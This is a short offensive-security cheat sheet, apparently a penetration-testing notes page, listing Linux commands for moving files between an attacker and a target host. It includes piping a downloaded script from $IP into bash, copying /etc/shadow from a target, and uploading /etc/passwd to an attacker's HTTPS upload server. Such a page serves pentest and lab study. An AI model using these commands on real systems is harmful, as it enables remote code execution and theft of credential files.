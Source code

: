```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Linux

## From ATTACKER to TARGET

### Linux base64 download

```bash
# Read as base64
cat test.txt | base64 -w 0 ; echo

# Decode base64
echo -n 'aGVsbG8sd29ybGQK' | base64 -d
```

### Linux download

```bash
# Download into disk
wget http://$IP/test.txt -O /tmp/test.txt

# Download into disk
curl -o /tmp/test.txt http://$IP/test.txt

# Download into memory
wget -qO- http://$IP/test.sh | bash

# Download into memory
curl http://$IP/test.sh | bash
```

### SSH download

```bash
# Download file from target
scp root@$IP:/etc/shadow .
```

## From TARGET to ATTACKER

### Linux web upload

```bash
# ATTACKER
# Create self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the UPLOAD server
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ../server.pem

# VICTIM
# Upload the file
curl -X POST https://$IP/upload -F 'files=@/etc/passwd' --insecure
```

### SSH upload

```bash
# Upload file to target
scp test.txt root@$IP:/tmp/
```

### Web server type

```bash
# Python server
python3 -m http.server
python2 -m SimpleHTTPServer

# PHP server
php -S 0.0.0.0:8000

# Ruby server
ruby -run -ehttpd . -p8000
```
